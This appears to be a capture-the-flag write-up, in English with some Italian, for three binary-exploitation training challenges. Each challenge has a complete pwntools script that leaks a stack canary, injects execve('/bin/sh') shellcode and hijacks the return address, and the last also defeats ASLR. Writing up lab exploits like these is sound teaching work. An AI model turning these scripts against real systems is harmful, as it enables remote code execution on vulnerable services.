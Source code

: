 # leakers ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge is again on a *buffer overflow* vulnerability, as we can immediately see from the disassembled source code on ```Ghidra```. However, this time we can see through ```checksec ./leakers``` that a **canary** mitigation is enabled.

Btw we can easily bypass it by exploiting the fact that there is a printf in the code that, as we know, prints strings until it finds a null byte 0x00. Moreover, a canary typically starts with this null byte in order to XXXXXX.

### Exploit
With this knowledge we can send some A's and analyze the memory after this point with ```x /20gx *buffer_address*```, and notice the presence of the canary after 104 bytes. After leaking and receiving it we can fully exploit this.

First of all we send our shellcode in the first iteration of the loop, then we get the canary and after that we overwrite the Saved IP in order to jump to out code.
```python
from pwn import *
import time

context.terminal = ['tmux', 'splitw', '-h']
#ssh = ssh("acidburn", "192.168.56.103")
#r = ssh.process("./leakers")
#gdb.attach(r, """
#	b *0x000401200
#	c
#	""")

r = remote("training.jinblack.it", 2010)

input("wait")

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8

r.send(shellcode)
time.sleep(0.1)

r.send("A"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

wheretojump = 0x00404080

payload = b"A" * 104 + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

**flag{canary_may_not_die!}**


# gonnaleak ![c](https://img.shields.io/badge/solved-success)
### Analysis
Non mi ricordo
### Exploit
```python
from pwn import *
import time

#context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['terminator', '-e']
#r = process("./gonnaleak")
#gdb.attach(r, """
#	c
#	""")

r = remote("training.jinblack.it", 2011)

input("wait")


shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
shellcode = shellcode.rjust(104, b"\x90")
#r.send(shellcode)
#time.sleep(0.1)

r.send("A"*(105))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)


r.send("A"*(136))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(136)
wheretojump = u64(r.recv(6) + b"\x00"*2)
print("0x%x" % wheretojump)
wheretojump = wheretojump - 0x150
print("0x%x" % wheretojump)


#payload = b"A"*104 + p64(canary) + b"B"*8 + p64(wheretojump)
payload = shellcode + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

Flag: **flag{you_can_also_leak_the_stack!}**

# aslr ![c](https://img.shields.io/badge/solved-success)
### Analysis
Same procedure to get the canary.
Then because ASLR is enabled we have to calculate the offset (that is fixed) between an address in the stack
### Exploit
```python
from pwn import *
import time
'''
context.terminal = ['tmux', 'splitw', '-h']
r = process("./aslr")
gdb.attach(r, """
	c
	""")
'''
r = remote("training.jinblack.it", 2012)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
r.send(shellcode)
time.sleep(0.1)

r.send("B"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("canary 0x%x" % canary)

offset = 0x2005c0
r.send("A"*112)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(112)
add = u64(r.recv(8) + b"\x00" + b"\x00") 
add = add + offset
payload = b"a"*104 + p64(canary) + b"b"*8 + p64(add)
r.send(payload)

r.interactive()
```
**flag{you_can_also_leak_the_binary_And_compute_bss!}**
